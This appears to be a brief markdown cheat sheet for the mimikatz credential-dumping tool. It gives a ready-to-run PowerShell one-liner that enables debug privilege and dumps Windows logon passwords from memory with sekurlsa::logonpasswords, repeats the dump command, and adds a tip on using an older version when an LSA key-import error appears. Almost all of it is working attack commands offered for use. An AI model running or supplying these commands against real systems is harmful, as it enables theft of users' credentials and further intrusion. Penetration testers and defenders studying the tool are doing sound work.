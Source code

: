 # mimikatz

## all in one command for non-interactive powershell
```
.\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
```

## dump passwords
```
sekurlsa::logonpasswords
```

## troubleshooting `ERROR kuhl_m_sekurlsa_acquireLSA Key import`
```
I tried an earlier version 2.1.1 #17763 and ran sekurlsa::logonpasswords just fine.
```
https://github.com/gentilkiwi/mimikatz/issues/248
